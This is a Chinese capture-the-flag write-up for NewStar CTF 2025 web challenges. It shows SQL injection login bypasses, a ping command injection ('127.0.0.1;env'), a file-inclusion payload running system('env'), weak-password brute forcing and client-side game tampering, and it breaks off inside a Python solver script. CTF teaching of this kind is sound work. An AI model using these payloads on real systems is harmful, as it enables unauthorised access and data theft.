



# NewStar CTF 2025 公开赛道 Web-Week1 题解
---

## 1. 题目：multi-headach3（难度：☆☆☆☆☆）
### 1.1 考点
robots.txt 协议解析、HTTP 重定向识别与抓包分析

### 1.2 题目描述


### 1.3 解题步骤
1. 访问 robots.txt 文件  
   进入题目初始页面后，在 URL 后拼接 `robots.txt`（完整路径为 `http://题目域名/robots.txt`），访问后得到配置内容：
   ```plaintext
   User-agent: *
   Disallow: /hidden.php
   ```
   该配置表明服务器禁止爬虫访问 `/hidden.php` 路径，此路径即为关键隐藏页面。

2. 分析重定向与抓包获取 flag  
   直接访问 `/hidden.php`（完整路径为 `http://题目域名/hidden.php`），会发现页面自动跳转回初始页面，无法直接查看内容。使用 Burp Suite 抓包：
   - 打开 Burp Suite，配置浏览器代理（默认端口 8080）。
   - 再次访问 `/hidden.php`，Burp 会捕获到该请求的响应包。
   
   - 在响应包的响应体或响应头中，可直接找到 flag。

---

## 2. 题目：strange_login（难度：☆☆☆☆☆）
### 2.1 考点
SQL 注入（报错注入排查、闭合符与注释符适配）

### 2.2 题目描述


### 2.3 解题步骤

1. 初步注入测试与报错分析  
   进入题目登录框，输入账号 `admin' or '1'='1'--`、任意密码（如 123），提交后出现报错：
   ```plaintext
   Query failed: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123'' at line 1
   ```
   报错原因：注入语句中使用的 `--` 注释符未生效（可能服务器不支持该注释符），导致密码字段的引号与注入语句冲突，破坏 SQL 语法结构。

2. 更换注入语句成功登录  
   调整注入语句，使用 MySQL 支持的 `#` 注释符（需注意 URL 提交时无需转义，直接使用），账号输入：
   ```plaintext
   1' or 1=1#
   ```
   密码输入任意内容（如 123），提交后即可绕过登录验证，进入后台页面获取 flag。
   

---

## 3. 题目：黑客小 W 的故事（1）（难度：★½☆☆☆☆）
### 3.1 考点
HTTP 协议（JSON 响应包分析、请求方法 / 头修改、GET/POST 传参）

### 3.2 题目描述
~~不难但麻烦~~


### 3.3 解题步骤
1. 初始抓包分析进入题目页面后，直接使用 Burp Suite 抓包，准备后续改包操作。

~~叽里咕噜说什么呢~~


2. GET 传参触发有效提示页面初始提示不明确，点击 “提示” 后发现需通过 GET 传参触发下一步。


构造 GET 参数：?shipin=mogubaozi（完整路径为 http://题目域名/?shipin=mogubaozi），访问后获得清晰指引。
```plaintext
?shipin=mogubaozi
```

3. POST 传参与请求方法修改根据提示，需以 POST 方式发送参数 chongzi，同时将请求方法改为 DELETE（通过 Burp 修改请求行的请求方法）。


4. 修改 User-Agent 请求头按提示将请求头 User-Agent 改为指定内容：
```plaintext
User-Agent:CycloneSlash/2.0,DashSlash/5.0
```
5. 获取 flag
完成所有请求修改后，提交请求，页面返回 flag。


---

## 4. 题目：宇宙的中心是php（难度：☆☆☆☆☆）
### 4.1 考点
开发者工具使用、PHP 弱类型比较、进制转换

### 4.2 题目描述


### 4.3 解题步骤
1.  突破开发者工具限制，发现隐藏页面进入题目初始页面后，尝试直接按 F12 打开开发者工具，发现被禁用。通过浏览器设置手动开启开发者工具（如 Chrome 可通过 “设置→更多工具→开发者工具” 打开）；在开发者工具的「Elements」或「Sources」面板中， 发现隐藏路径 /s3kret.php。
2. 分析 /s3kret.php 代码逻辑访问 http://题目域名/s3kret.php，页面展示核心代码：

```plaintext
<?php
highlight_file(__FILE__);
include "flag.php";
if(isset($_POST['newstar2025'])){
    $answer = $_POST['newstar2025'];
    if(intval($answer)!=47&&intval($answer,0)==47){
        echo $flag;
    }else{
        echo "你还未参透奥秘";
    }
}
```

代码要求满足两个条件：
- intval($answer) != 47：直接转换为整数时不等于 47；
- intval($answer, 0) == 47：自动识别进制转换时等于 47（intval 第二个参数为 0 时，会识别 0x 前缀为十六进制）。
3. 构造 payload 满足条件核心思路：利用十六进制表示 47，47 的十六进制为 0x2F（大小写不敏感，0x2f 也可）；
intval("0x2F") → 直接转换忽略 0x 前缀，结果为 0（≠47）；
intval("0x2F", 0) → 识别为十六进制，转换为十进制 47（=47），刚好满足两个条件。
4. POST 提交 payload，获取 flag使用 Burp Suite 或 Postman 以 POST 方式提交参数：

```plaintext
newstar2025=0x2F
```


---

## 5. 题目：我真得控制你了（难度：☆☆☆☆☆）
### 5.1 考点
JS 函数篡改、开发者工具突破、弱密码爆破、PHP 命令执行绕过（正则过滤）

### 5.2 题目描述


### 5.3 解题步骤
1. 突破开发者工具限制，篡改 JS 启用按钮进入页面后发现按钮无法点击，F12 及相关快捷键被禁用。通过浏览器设置手动开启开发者工具，在「Sources」面板中查看页面 JS 代码：


```plaintext
<script>
        // 检查保护层状态
        function checkShieldStatus() {
            const shield = document.getElementById('shieldOverlay');
            const button = document.getElementById('accessButton');
            
            if (!shield) {
                button.classList.add('active');
                button.disabled = false;
            } else {
                button.classList.remove('active');
                button.disabled = true;
            }
        }
        

        checkShieldStatus();
        

        setInterval(checkShieldStatus, 500);
        

        document.getElementById('accessButton').addEventListener('click', function() {
            if (!document.getElementById('shieldOverlay')) {
                document.getElementById('nextLevelForm').submit();
            }
        });
        

        document.addEventListener('contextmenu', function(e) {
            e.preventDefault();
        });
        

        (function() {

            document.addEventListener('keydown', function(e) {
                // F12
                if (e.keyCode === 123) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Ctrl+Shift+I (Windows/Linux)
                if (e.ctrlKey && e.shiftKey && e.keyCode === 73) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Ctrl+Shift+J (Windows/Linux)
                if (e.ctrlKey && e.shiftKey && e.keyCode === 74) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Cmd+Option+I (Mac)
                if (e.metaKey && e.altKey && e.keyCode === 73) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Cmd+Option+J (Mac)
                if (e.metaKey && e.altKey && e.keyCode === 74) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Ctrl+U (查看源代码)
                if (e.ctrlKey && e.keyCode === 85) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
            });
            

            let devtools = false;
            const threshold = 160;
            
            function checkDevTools() {
                const widthThreshold = window.outerWidth - window.innerWidth > threshold;
                const heightThreshold = window.outerHeight - window.innerHeight > threshold;
                const orientation = widthThreshold ? 'vertical' : 'horizontal';
                
                if (!(heightThreshold && widthThreshold) && 
                    ((window.Firebug && window.Firebug.chrome && window.Firebug.chrome.isInitialized) || 
                     widthThreshold || heightThreshold)) {
                    devtools = true;
                    showDevToolsWarning();
                } else {
                    devtools = false;
                }
            }
            

            setInterval(checkDevTools, 1000);
            

            function showDevToolsWarning() {
                const warning = document.getElementById('devToolsWarning');
                warning.style.display = 'flex';
                

                document.addEventListener('keydown', function closeWarning(e) {
                    if (e.key === 'Escape') {
                        warning.style.display = 'none';
                        document.removeEventListener('keydown', closeWarning);
                    }
                });
            }
            

            if (typeof console !== "undefined") {
                if (typeof console.log !== 'undefined') {
                    console.log = function() {};
                }
                if (typeof console.warn !== 'undefined') {
                    console.warn = function() {};
                }
                if (typeof console.error !== 'undefined') {
                    console.error = function() {};
                }
                if (typeof console.info !== 'undefined') {
                    console.info = function() {};
                }
            }
        })();
    </script>
```

核心 JS 逻辑：checkShieldStatus() 函数通过检测 shieldOverlay 元素是否存在，控制按钮启用状态。

```plaintext
// 篡改函数，强制启用按钮
function checkShieldStatus() {
    const button = document.getElementById('accessButton');
    button.classList.add('active');
    button.disabled = false;
}
// 移除保护层元素（可选）
document.getElementById('shieldOverlay')?.remove();
// 直接启用按钮（兜底方案）
document.getElementById('accessButton').disabled = false;
document.getElementById('accessButton').classList.add('active');
```
执行后按钮变为可点击状态

2. 弱密码爆破登录后台
点击按钮后跳转至登录页，根据提示推测为弱口令登录：


使用 Burp Suite 抓包，将登录请求发送至 Intruder 模块进行爆破：
- 账号字典：admin（默认常见管理员账号）；
- 密码字典：弱口令集合（如 111111、123456 等）；
  爆破成功，正确账号密码为 admin/111111。

3. 分析 PHP 命令执行过滤规则
登录后进入 PHP 命令执行页面，核心代码如下：

```plaintext
<?php
error_reporting(0);

function generate_dynamic_flag($secret) {
    return getenv("ICQ_FLAG") ?: 'default_flag';
}


if (isset($_GET['newstar'])) {
    $input = $_GET['newstar'];
    
    if (is_array($input)) {
        die("恭喜掌握新姿势");
    }
    

    if (preg_match('/[^\d*\/~()\s]/', $input)) {
        die("老套路了，行不行啊");
    }
    

    if (preg_match('/^[\d\s]+$/', $input)) {
        die("请输入有效的表达式");
    }
    
    $test = 0;
    try {
        @eval("\$test = $input;");
    } catch (Error $e) {
        die("表达式错误");
    }
    
    if ($test == 2025) {
        $flag = generate_dynamic_flag($flag_secret);
        echo "<div class='success'>拿下flag！</div>";
        echo "<div class='flag-container'><div class='flag'>FLAG: {$flag}</div></div>";
    } else {
        echo "<div class='error'>大哥哥泥把数字算错了: $test ≠ 2025</div>";
    }
} else {
    ?>
<?php } ?>
```
过滤规则总结：
- 允许字符：0-9、*、/、~、()、空格；
- 禁止仅输入数字和空格；
- 要求执行结果 $test == 2025。

4. 构造绕过 payload，获取 flag

利用允许的运算符号构造表达式，满足结果为 2025：
```plain
?newatar=2025*2/2
```
该表达式符合过滤规则（包含 * 和 /，非纯数字），执行后 $test = 2025，页面返回 flag：


---

## 6. 题目：别笑，你也过不了第二关（难度：☆☆☆☆☆）
### 6.1 考点
JS 变量篡改、前端游戏逻辑绕过

### 6.2 题目描述


### 6.3解题步骤
1. 分析前端游戏逻辑，定位关键变量进入题目后是一款前端小游戏，规则为：通过方向键控制角色收集道具得分，达到目标分数即可通关。游玩至第二关时，发现目标分数高达 1000000，手动游玩难以达成。

按 F12 打开开发者工具（未被禁用），在「Sources」面板中查看游戏核心 JS 代码，关键逻辑如下：
- 分数变量：score（初始值为 0，收集道具增减分数）；
- 目标分数：targetScores = [30, 1000000]（第二关目标分数为 1000000）；
- 通关函数：endLevel()（判断 score >= targetScores[currentLevel] 即可通关，通关后自动请求 /flag.php 获取 flag）。

```plaintext
   const game = document.getElementById("game");
    const player = document.getElementById("player");
    const scoreEl = document.getElementById("score");
    const levelEl = document.getElementById("level");

    let score = 0;
    let steps = 0;
    let maxSteps = 10; // 每关掉落数量
    let targetScores = [30, 1000000]; // 每关目标分数
    let currentLevel = 0; // 0 表示第一关
    let gameEnded = false;
    let finishSpawned = false;
    let playerX = 180;
    let gateInterval = null;

    document.addEventListener("keydown", (e) => {
      if (e.key === "ArrowLeft") movePlayer(-100);
      if (e.key === "ArrowRight") movePlayer(100);
    });

    function movePlayer(offset) {
      let newX = playerX + offset;
      if (newX < 0 || newX > 340) return;
      playerX = newX;
      player.style.left = playerX + "px";
    }

    function spawnGate() {
      if (steps >= maxSteps || gameEnded || finishSpawned) return;
      steps++;
      const gate = document.createElement("div");
      gate.className = "gate";

      let x = Math.random() < 0.5 ? 60 : 260;
      gate.style.left = x + "px";

      let isAdd = Math.random() < 0.5;
      if (isAdd) {
        gate.dataset.value = 10;
        gate.style.backgroundImage = "url('2.jpg')";
      } else {
        gate.dataset.value = -10;
        gate.style.backgroundImage = "url('1.jpg')";
      }

      game.appendChild(gate);

      let y = 0;
      const fall = setInterval(() => {
        y += 5;
        gate.style.top = y + "px";

        const playerRect = player.getBoundingClientRect();
        const gateRect = gate.getBoundingClientRect();

        if (!(playerRect.right < gateRect.left ||
              playerRect.left > gateRect.right ||
              playerRect.bottom < gateRect.top ||
              playerRect.top > gateRect.bottom)) {
          score += parseInt(gate.dataset.value);
          scoreEl.innerText = "分数: " + score;
          clearInterval(fall);
          gate.remove();

          if (steps >= maxSteps && !finishSpawned) spawnFinishLine();
        }

        if (y > 600) {
          clearInterval(fall);
          gate.remove();
          if (steps >= maxSteps && !finishSpawned) spawnFinishLine();
        }
      }, 50);
    }

    function spawnFinishLine() {
      finishSpawned = true;
      const finish = document.createElement("div");
      finish.className = "finish-line";
      finish.style.left = "0px";
      game.appendChild(finish);

      let y = 0;
      const fall = setInterval(() => {
        y += 5;
        finish.style.top = y + "px";

        const playerRect = player.getBoundingClientRect();
        const finishRect = finish.getBoundingClientRect();

        if (!(playerRect.right < finishRect.left ||
              playerRect.left > finishRect.right ||
              playerRect.bottom < finishRect.top ||
              playerRect.top > finishRect.bottom)) {
          clearInterval(fall);
          finish.remove();
          endLevel();
        }

        if (y > 600) {
          clearInterval(fall);
          finish.remove();
          endLevel();
        }
      }, 50);
    }

    function endLevel() {
  if (gameEnded) return;

  clearInterval(gateInterval);
  gateInterval = null;

  if (score >= targetScores[currentLevel]) {
    alert(`恭喜通过第 ${currentLevel + 1} 关！得分: ${score}`);
    currentLevel++;
    if (currentLevel < targetScores.length) {
      // 下一关
      resetLevel(currentLevel);
      startGame();
    } else {
      // 全部通关
      gameEnded = true;
      const formData = new URLSearchParams();
formData.append("score", score);

      fetch("/flag.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: formData.toString()
})
.then(res => res.text())
.then(data => {
  alert("服务器返回:\n" + data);
})
.catch(err => {
  alert("请求失败: " + err);
});
    }
  } else {
    alert(`第 ${currentLevel + 1} 关未达成目标分数 (目标: ${targetScores[currentLevel]})，将重新开始本关！`);
    resetLevel(currentLevel);
    startGame();
  }
}


    function resetLevel(levelIndex) {
      score = 0;
      scoreEl.innerText = "分数: " + score;
      steps = 0;
      finishSpawned = false;
      levelEl.innerText = "关卡: " + (levelIndex + 1);
      [...game.querySelectorAll('.gate, .finish-line')].forEach(e => e.remove());
    }

    function startGame() {
      gateInterval = setInterval(spawnGate, 1500);
    }
    startGame();
    document.addEventListener("visibilitychange", () => {
      if (document.hidden) {
        if (gateInterval) {
          clearInterval(gateInterval);
          gateInterval = null;
        }
      } else {
        if (!gameEnded && !gateInterval) {
          gateInterval = setInterval(spawnGate, 1500);
        }
      }
    });
```

2. 审计代码，篡改分数变量，触发通关逻辑切换至开发者工具「Console」面板，直接修改 score 变量并调用通关函数，跳过手动游玩步骤：
```plaintext
score = 1000000;
endLevel();
```
执行代码后，页面弹出 “恭喜通过第 2 关” 提示，同时自动向 /flag.php 发送 POST 请求。
3. 请求成功后，服务器返回 flag 并通过弹窗展示：



---

# week2 题解
---

## 1. 题目：DD加速器（难度：☆☆☆☆☆）
### 1.1 考点
Linux 命令执行、命令拼接绕过

### 1.2 题目描述


### 1.3 解题步骤
1. ping命令执行，选择 ; 作为命令分隔符（Linux 中用于分隔多个独立命令），拼接 env 命令查询系统环境变量（通常 flag 可能存储在环境变量中）
```plaintext
127.0.0.1;env
```
2. 从返回结果中找到 flag 相关字段，完成解题。


---

## 2. 题目：白帽小K的故事（1）（难度：★☆☆☆☆）
### 2.1 考点
PHP 文件包含漏洞、前端 JS 校验绕过、文件上传漏洞、恶意代码执行
### 2.2 题目描述


### 2.3 解题步骤

分析前端功能与潜在漏洞​
访问题目页面，发现核心功能为 MP3 文件上传、列表展示和播放。通过开发者工具（F12）查看前端源码，重点审计上传校验逻辑和隐藏接口：


```plaintext
审计前端代码发现文件包含漏洞
<script>
        const musicTitle = document.getElementById('musicTitle');
        const audioPlayer = document.getElementById('audioPlayer');
        const fileList = document.getElementById('fileList');
        const uploadArea = document.getElementById('uploadArea');
        let currentFile = null;

        async function fetchList() {
            fileList.innerHTML = '<div style="color:#aaa;text-align:center;padding:20px 0;">加载中...</div>';
            try {
                const res = await fetch('/v1/list');
                const data = await res.json();
                if (Array.isArray(data) && data.length) {
                    fileList.innerHTML = '';
                    data.forEach(file => {
                        const item = document.createElement('div');
                        item.className = 'file-item';
                        item.textContent = file;
                        item.onclick = () => playMusic(file, item);
                        fileList.appendChild(item);
                    });
                } else {
                    fileList.innerHTML = '<div style="color:#aaa;text-align:center;padding:20px 0;">暂无音乐文件</div>';
                }
            } catch (e) {
                fileList.innerHTML = '<div style="color:#e00;text-align:center;padding:20px 0;">加载失败</div>';
            }
        }

        function playMusic(filename, itemDiv) {
            if (currentFile === filename && !audioPlayer.paused) {
                return;
            }
            Array.from(fileList.children).forEach(child => child.classList.remove('active'));
            itemDiv.classList.add('active');
            currentFile = filename;
            musicTitle.textContent = filename;
            audioPlayer.src = `/v1/music?file=${encodeURIComponent(filename)}`;
            audioPlayer.play();
        }

        musicTitle.addEventListener('click', () => {
            if (!audioPlayer.src) return;
            if (audioPlayer.paused) {
                audioPlayer.play();
            } else {
                audioPlayer.pause();
            }
        });

        uploadArea.addEventListener('dragover', e => {
            e.preventDefault();
            uploadArea.classList.add('dragover');
        });
        uploadArea.addEventListener('dragleave', e => {
            e.preventDefault();
            uploadArea.classList.remove('dragover');
        });
        uploadArea.addEventListener('drop', e => {
            e.preventDefault();
            uploadArea.classList.remove('dragover');
            const files = Array.from(e.dataTransfer.files).filter(f => f.type === 'audio/mpeg' || f.name.endsWith('.mp3'));
            if (!files.length) {
                alert('请上传 mp3 文件');
                return;
            }
            uploadFiles(files);
        });

        uploadArea.addEventListener('click', () => {
            const input = document.createElement('input');
            input.type = 'file';
            input.accept = '.mp3,audio/mpeg';
            input.multiple = true;
            input.onchange = () => {
                const files = Array.from(input.files).filter(f => f.type === 'audio/mpeg' || f.name.endsWith('.mp3'));
                if (!files.length) {
                    alert('请上传 mp3 文件');
                    return;
                }
                uploadFiles(files);
            };
            input.click();
        });

        async function uploadFiles(files) {
            for (const file of files) {
                const formData = new FormData();
                formData.append('file', file);
                uploadArea.textContent = `正在上传：${file.name} ...`;
                try {
                    const res = await fetch('/v1/upload', {
                        method: 'POST',
                        body: formData
                    });
                    const data = await res.json();
                    if (data.success) {
                        uploadArea.textContent = '上传成功！';
                        await fetchList();
                    } else {
                        uploadArea.textContent = '上传失败：' + (data.error || '未知错误');
                    }
                } catch (e) {
                    uploadArea.textContent = '上传失败';
                }
                setTimeout(() => {
                    uploadArea.textContent = '拖拽 MP3 文件到这里上传';
                }, 1200);
            }
        }
        // TODO：
        // 小岸同学到时候记得把这个函数删掉
        async function fetchload(file) {
            try {
                const res = await fetch('/v1/onload', {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
                    body: `file=${encodeURIComponent(file)}`
                });
                const data = await res.json();
                if (data.success) {
                    console.log('File content:', data.success);
                } else {
                    console.error('Error loading file:', data.error);
                }
            } catch (e) {
                console.error('Request failed', e);
            }
        }

        fetchList();
    </script>
```
- 上传限制：前端通过 JS 校验文件类型（audio/mpeg）和后缀（.mp3），无后端校验提示，可通过抓包修改绕过；​
- 隐藏接口：源码中发现未删除的 fetchload 函数，调用 /v1/onload 接口，接收 file 参数并疑似读取文件内容，存在文件包含风险。
2. 利用文件包含接口执行恶意代码​
核心思路：/v1/onload 接口存在文件包含漏洞，可直接读取并执行上传的 PHP 文件，通过拼接参数传递系统命令。​
构造 payload 逻辑：
```plaintext
POST /v1/onload HTTP/1.1​
Host: [题目域名]​
Content-Type: application/x-www-form-urlencoded​
​
file=123.php&a=system('env');
```
原理：接口会包含并执行 123.php，同时解析 GET 参数 a 中的命令，返回执行结果。​
file 参数指定上传的恶意文件 123.php；​
通过 GET 参数 a 传递系统命令（env 用于查询环境变量，通常 flag 存储于此）；​
完整请求 payload（通过 Burp 或浏览器开发者工具发送 POST 请求）：
3. 提取 flag 完成解题​
发送 payload 后，接口返回系统环境变量信息，其中包含 flag 字段。​
结果验证截图：


---

## 3. 题目：搞点哦润吉吃吃橘（难度：★★☆☆☆）
### 3.1 考点
HTML 源码审计（隐藏信息提取）、Python 自动化脚本编写、Session 维持、Token 动态计算与提交

### 3.2 题目描述


### 3.3 解题步骤
1. 审计 HTML 源码提取登录凭据​
核心思路：题目未直接提供登录账号密码，推测隐藏在前端源码中，通过开发者工具（F12）查看页面源代码。​
操作步骤：​
访问题目页面，按 F12 打开开发者工具，切换至「Elements」或「源代码」面板；​
搜索关键字符（如 password、账号、登录），发现注释中的隐藏信息：<!-- 唔...这个密码有点难记，但是我已经记好了 Doro/Doro_nJlPVs_@123 -->；​
提取凭据：用户名 Doro，密码 Doro_nJlPVs_@123（注意密码中的 @ 需 URL 编码为 %40，避免请求参数解析异常）。
```plaintest
 <!-- 唔...这个密码有点难记，但是我已经记好了 Doro/Doro_nJlPVs_@123 -->
```
2. 抓包分析挑战流程与接口​
核心思路：通过 Burp Suite 抓包，明确登录后需调用的接口及参数格式，为编写脚本做准备。​
操作步骤：​
开启 Burp Suite 代理，浏览器配置代理后尝试登录；​
抓包分析发现核心接口流程：​
/login：POST 提交用户名密码，获取登录 Session；​
/start_challenge：POST 请求获取挑战规则（含 Token 计算所需的 multiplier、xor_value 或 expression 字段）；​
/verify_token：POST 提交计算后的 Token，验证通过后返回 flag；​
记录各接口的请求方法、Content-Type 及参数格式。​
抓包分析截图：

根据提示，抓包查看

3. 编写 Python 自动化脚本​
核心思路：手动计算 Token 存在时效性（如含 time.time() 动态参数），需编写脚本实现「登录→获取规则→计算 Token→提交验证」全流程自动化。
丢给al写一个脚本
```plaintext
#!/usr/bin/env python3
# coding: utf-8

import requests
import re
import time
import sys

BASE = "https://eci-2ze6zyo0m8laq9swg77e.cloudeci1.ichunqiu.com:5000"

# 登录表单（你提供的）
LOGIN_PATH = "/login"
START_PATH = "/start_challenge"
VERIFY_PATH = "/verify_token"

USERNAME = "Doro"
PASSWORD = "Doro_nJlPVs_%40123"  # 注意：这是示例，生产环境请妥善保管凭据

def login(session: requests.Session) -> bool:
    url = BASE + LOGIN_PATH

    session.headers.update({
        "Origin": BASE,
        "Referer": BASE + "/login",
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-User": "?1",
        "Sec-Fetch-Dest": "document",
    })

    data = f"username={USERNAME}&password={PASSWORD}"
    resp = session.post(url, data=data, allow_redirects=False)

    print("[login] status:", resp.status_code)
    print("[login] headers:", resp.headers)

    if "Set-Cookie" in resp.headers and "session=" in resp.headers["Set-Cookie"] and "Expires=Thu, 01 Jan 1970" not in resp.headers["Set-Cookie"]:
        print("[login] 登录成功 ->", resp.headers["Set-Cookie"])
        return True

    print("[login] 登录失败，响应内容：", resp.text[:300])
    return False


def fetch_challenge(session: requests.Session):
    url = BASE + START_PATH
    resp = session.post(url)
    print("[start_challenge] status:", resp.status_code)
    try:
        data = resp.json()
    except Exception as e:
        print("[start_challenge] 无法解析为 JSON:", e)
        print("Response body:", resp.text[:500])
        return None
    return data

def parse_and_compute_token(data: dict):
    # 优先使用单独字段（如果存在）
    if "multiplier" in data or "xor_value" in data:
        try:
            multiplier = int(data.get("multiplier")) if data.get("multiplier") is not None else None
        except Exception:
            multiplier = None
        xor_raw = data.get("xor_value")
        xor_value = None
        if xor_raw is not None:
            try:
                if isinstance(xor_raw, str) and xor_raw.lower().startswith("0x"):
                    xor_value = int(xor_raw, 16)
                else:
                    xor_value = int(xor_raw)
            except:
                xor_value = None
        # 如果 expression 字段存在且包含 time.time() 的指示，优先使用实时 time
        expr = data.get("expression", "")
        if "time.time" in expr or "int(time.time" in expr:
            tsource = int(time.time())
        else:
            # 没有 time.time 的话，尝试从 expression 中提取第一个数字（作为左侧时间戳）
            m = None
            if expr:
                m = re.search(r'\(\s*(\d+)\s*\*\s*\d+\s*\)', expr)
            if m:
                tsource = int(m.group(1))
            else:
                # 如果没有 expression 且没有明确时间源，使用当前时间（较保险）
                tsource = int(time.time())

        if multiplier is None:
            # 若 multiplier 字段不存在，尝试从 expression 中提取
            expr = data.get("expression", "")
            m2 = re.search(r'\*\s*(\d+)\s*\)', expr)
            if m2:
                multiplier = int(m2.group(1))
        if multiplier is None or xor_value is None:
            raise ValueError("无法从响应中解析 multiplier 或 xor_value。data: {}".format(data))

        token = (tsource * multiplier) ^ xor_value
        return token, {"tsource": tsource, "multiplier": multiplier, "xor_value": xor_value, "method": "fields_or_expr"}

    # 如果没有单独字段，尝试从 expression 字段解析
    expr = data.get("expression")
    if not expr:
        raise ValueError("响应既没有 'expression'，也没有 'multiplier' / 'xor_value' 字段。data: {}".format(data))

    # 判断 expression 是否包含 int(time.time())
    if "time.time" in expr:
        tsource = int(time.time())
    else:
        # 尝试提取表达式中的左侧数字（形如 (1759715000 * 53475) ）
        m_time = re.search(r'\(\s*(\d+)\s*\*\s*\d+\s*\)', expr)
        if m_time:
            tsource = int(m_time.group(1))
        else:
            # 兜底使用当前时间
            tsource = int(time.time())

    # 提取 multiplier
    m_mul = re.search(r'\*\s*(\d+)\s*\)', expr)
    if not m_mul:
        raise ValueError("无法从 expression 提取 multiplier。expr: {}".format(expr))
    multiplier = int(m_mul.group(1))

    # 提取 xor 值（支持 0xHEX 或 十进制）
    m_xor = re.search(r'\^\s*(0x[0-9a-fA-F]+|\d+)', expr)
    if not m_xor:
        raise ValueError("无法从 expression 提取 xor_value。expr: {}".format(expr))
    xor_raw = m_xor.group(1)
    xor_value = int(xor_raw, 16) if xor_raw.lower().startswith("0x") else int(xor_raw)

    token = (tsource * multiplier) ^ xor_value
    return token, {"tsource": tsource, "multiplier": multiplier, "xor_value": xor_value, "method": "expr"}

def submit_token(session: requests.Session, token):
    url = BASE + VERIFY_PATH
    payload = {"token": token}
    # 显式声明本次请求为 JSON，覆盖全局 Content-Type
    resp = session.post(url, json=payload, headers={"Content-Type": "application/json"})
    print("[verify_token] status:", resp.status_code)
